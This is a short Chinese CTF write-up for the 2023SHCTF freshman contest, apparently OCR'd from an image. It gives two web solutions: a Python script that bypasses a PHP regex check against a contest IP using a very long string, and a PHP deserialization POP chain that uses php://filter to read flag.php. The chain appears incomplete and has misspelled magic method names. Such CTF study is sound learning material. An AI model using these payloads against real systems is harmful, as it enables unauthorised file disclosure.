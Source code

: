 # 2023SHCTF联赛


2023SHCTF联赛---工带第二届新生赛



作为组委会摆烂成员，

摸鱼水题出题人，

自己也稍微做了点



更详细的wp见官方wp：

https://mp.weixin.qq.com/s/9Q176LuKQAhw7TlNg9vk4A

## WEB

### [WEEK1]1zzphp

套路跟ctfshow web131差不多

```
import requests
url="http://112.6.51.212:31610/?num[]=a"
data={
  'c_ode':'very'*250000+'2023SHCTF'
}
r=requests.post(url,data=data)
print(r.text)
```

### [WEEK1]ez_serialize

```
<?php
class A{
  public $var_1='php://filter/read=convert.base64-encode/resource=flag.php';
  public function _invoke(){
​    include($this->var_1);
  }
}
class B{
  public $q;
  public function _wakeup(){
​    $this->q=new A();
  }
}
class C
{
  public $var;
  public $z;
  public function _toString(){
  return $this->z= new D();
  }
}
class D{
  public $p;
  public function __get($key){
​    $function = $this->p = new A();
  }
}
$pop=new B();
$pop->q=new C();
$pop->q->z=new D();
```